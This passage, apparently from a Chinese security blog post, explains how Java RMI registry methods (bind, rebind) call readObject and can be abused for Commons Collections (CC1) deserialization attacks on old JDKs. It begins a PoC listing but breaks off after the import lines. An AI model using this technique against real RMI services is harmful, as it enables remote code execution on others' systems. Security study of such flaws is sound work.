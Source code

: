 ```
    }
}

```

## 攻击注册中心


### 基本方法


我们与注册中心进行交互可以使用如下几种方式


* list \- 缺少readObject方法，所以没法达到序列化效果，就无法利用
* bind
* rebind
* unbind
* lookup


这几种方法位于RegistryImpl\_Skel\#dispatch中，如果存在readObject，则可以利用


**case1 \- list**


![image-20241125190020617](https://images.cnblogs.com/cnblogs_com/erosion2020/2432063/o_241125134805_rmi6.png)


当调用bind或rebind时，会用readObject读出参数名和远程对象，所以都可以利用


如果服务端存在cc1相关组件漏洞，那么就可以使用反序列化攻击，CC1攻击链可以参考([https://github.com/erosion2020/p/18553568](https://github.com))


**注意下边给的两个poc只能在 jdk7u71以下的版本才能执行，7u71这个版本也不行，我用的是7u66这个版本的JDK，因为在7u71及以上的版本中AnnotationInvocationHandler的readObject方法中，LazyMap被替换成了LinkedHashMap因此无法触发LazyMap构造的POC，虽然有绕过方法，但是这里只是为了说明RMI的漏洞，所以降低JDK版本即可**


### POC1 \- 基于bind/rebind


**case0 \- bind**


![image-20241125185930568](https://images.cnblogs.com/cnblogs_com/erosion2020/2432063/o_241125134805_rmi7.png)


**case3 \- rebind**


![image-20241125191923368](https://images.cnblogs.com/cnblogs_com/erosion2020/2432063/o_241125134805_rmi8.png)



```
package rmi_injection_labs1.server;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.lang.annotation.Documented;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
```